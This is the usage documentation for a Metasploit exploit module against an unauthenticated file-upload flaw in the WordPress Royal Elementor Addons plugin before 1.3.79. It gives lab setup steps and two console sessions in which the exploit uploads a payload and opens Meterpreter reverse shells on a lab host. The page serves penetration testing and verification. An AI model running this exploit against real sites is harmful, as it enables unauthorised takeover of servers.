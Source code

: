 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in WordPress Royal Elementor Addons and Templates
plugin, versions prior to 1.3.79.
The vulnerability is due to an unauthenticated file upload flaw in the plugin.
To replicate a vulnerable environment for testing:

1. Install WordPress.
2. Download and install the Royal Elementor Addons and Templates plugin, ensuring the version is below 1.3.79.
3. Activate Royal Elementor Templates Kit and chose a theme.
4. Verify that the plugin is activated and accessible on the local network.

## Verification Steps

1. Set up a WordPress instance with the Royal Elementor Addons plugin (version < 1.3.79).
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/wp_royal_elementor_addons_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

This module offers several options:

### TARGETURI

- **Description**: Base path of the WordPress application.
- **Required**: Yes.
- **Default Value**: `/`.

## Scenarios

### Successful Exploitation Against Local WordPress with Royal Elementor Addons 1.3.78

**Setup**:

- Local WordPress instance with Royal Elementor Addons version 1.3.78.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module:
```
use exploit/multi/http/wp_royal_elementor_addons_rce
```
4. Set `RHOSTS` to the local IP (e.g., 192.168.1.10).
5. Configure other necessary options (TARGETURI, SSL, etc.).
6. Launch the exploit:
```
exploit
```

**Expected Results**:

- The module attempts to retrieve a nonce from the local server.
- It then uploads and executes the payload.
- If successful, control over the local WordPress instance is gained, depending on the payload used.

**Example**:

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf6 > search royal

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_royal_elementor_addons_rce  2023-11-23       excellent  Yes    WordPress Royal Elementor Addons RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/wp_royal_elementor_addons_rce

msf6 > use 0
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_royal_elementor_addons_rce) > options

Module options (exploit/multi/http/wp_royal_elementor_addons_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metaspl
                                         oit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      VaXEJJxCKI       no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.1.5      yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_royal_elementor_addons_rce) > set rhosts chocapikk.lab
rhosts => chocapikk.lab
msf6 exploit(multi/http/wp_royal_elementor_addons_rce) > set rport 8888
rport => 8888
msf6 exploit(multi/http/wp_royal_elementor_addons_rce) > set ssl false
[!] Changing the SSL option's value may require changing RPORT!
ssl => false
msf6 exploit(multi/http/wp_royal_elementor_addons_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.4.1
[+] Detected Royal Elementor Addons version: 1.3.78
[+] The target appears to be vulnerable.
[*] Attempting to retrieve nonce...
[+] Nonce found in response: "9e10e80ee1"
[*] Sending payload
[+] Payload uploaded successfully
[*] Triggering the payload
[*] Sending stage (3045380 bytes) to 172.20.0.3
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 172.20.0.3:46556) at 2023-11-28 08:27:43 +0100

meterpreter > sysinfo
Computer     : 172.20.0.3
OS           : Debian 11.8 (Linux 6.4.10-060410-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

With `php/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/wp_royal_elementor_addons_rce) > options

Module options (exploit/multi/http/wp_royal_elementor_addons_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     chocapikk.lab    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metaspl
                                         oit.html
   RPORT      8888             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.5      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_royal_elementor_addons_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.4.1
[+] Detected Royal Elementor Addons version: 1.3.78
[+] The target appears to be vulnerable.
[*] Attempting to retrieve nonce...
[+] Nonce found in response: "9e10e80ee1"
[*] Sending payload
[+] Payload uploaded successfully
[*] Triggering the payload
[*] Sending stage (39927 bytes) to 172.20.0.3
[*] Meterpreter session 2 opened (192.168.1.5:4444 -> 172.20.0.3:40952) at 2023-11-28 08:30:35 +0100

meterpreter > sysinfo
Computer    : 541828095fba
OS          : Linux 541828095fba 6.4.10-060410-generic #202308111154 SMP PREEMPT_DYNAMIC Fri Aug 11 12:00:45 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
```
